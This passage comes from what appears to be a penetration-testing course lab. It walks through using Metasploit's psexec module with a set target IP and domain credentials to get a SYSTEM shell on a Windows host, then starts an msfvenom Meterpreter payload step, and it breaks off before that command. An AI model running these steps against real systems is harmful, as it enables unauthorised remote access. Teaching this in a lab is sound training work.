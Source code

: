 4. Load the module for PsExec with the following command:

	 - `use exploit/windows/smb/psexec`

5. Set the following options:

	 - set RHOST 172.22.117.20
	 - set SMBUser tstark
	 - set SMBPass Password!
	 - set SMBDomain megacorpone

     ![A screenshot depicts the options set correctly.](Images/msfsettings.PNG)

6. Run the module, and you should get a shell back as SYSTEM.

**Note**: If you are curious what PSExec is, we will explore it more on Day 3. For now, you just need to know that PSExec is a way of remotely administrating Windows machines. There is also a Metasploit module for it.

7. In a new terminal tab/window, generate a Meterpreter payload using `msfvenom` with the following command:
